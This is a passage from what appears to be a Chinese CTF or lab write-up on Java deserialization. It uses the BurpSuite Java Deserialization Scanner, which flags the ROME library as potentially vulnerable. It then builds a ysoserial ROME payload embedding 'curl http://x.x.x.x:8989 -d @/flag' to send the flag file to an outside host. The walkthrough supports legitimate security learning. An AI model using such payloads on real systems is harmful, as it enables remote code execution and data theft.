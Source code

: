 使用BurpSuite插件 `Java Deserialization Scanner`

1. 设置存在漏洞的点 rO0ABXNyABhjb*
2. 点击，进行base64 攻击

```
SCANNING IN PROGRESS
Scanning can go on approximately from 1 second up to 3 minutes, based on the number of vulnerable libraries founded
```

稍等片刻

返回结果：
![](./ROME.png)
```
Results:
Apache Commons Collections 3 (Sleep): NOT vulnerable.
Spring Alternate Payload (Sleep): NOT vulnerable.
Apache Commons Collections 4 (Sleep): NOT vulnerable.
JSON (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 2 (Sleep): NOT vulnerable.
ROME (Sleep): Potentially VULNERABLE!!!
Apache Commons Collections 4 Alternate payload (Sleep): NOT vulnerable.
Java 8 (up to Jdk8u20) (Sleep): NOT vulnerable.
Java 6 and Java 7 (up to Jdk7u21) (Sleep): NOT vulnerable.
Hibernate 5 (Sleep): NOT vulnerable.
Commons BeanUtils (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 3 (Sleep): NOT vulnerable.
Spring (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload (Sleep): NOT vulnerable.
END
IMPORTANT NOTE: High delayed networks may produce false positives!
```

其中，`ROME (Sleep): Potentially VULNERABLE!!!` 标红

## 0x08 利用ysoserial 生成payload

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar `

`ROME                @mbechler                              rome:1.0 `

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "curl http://x.x.x.x:8989 -d @/flag" > flag.bin`


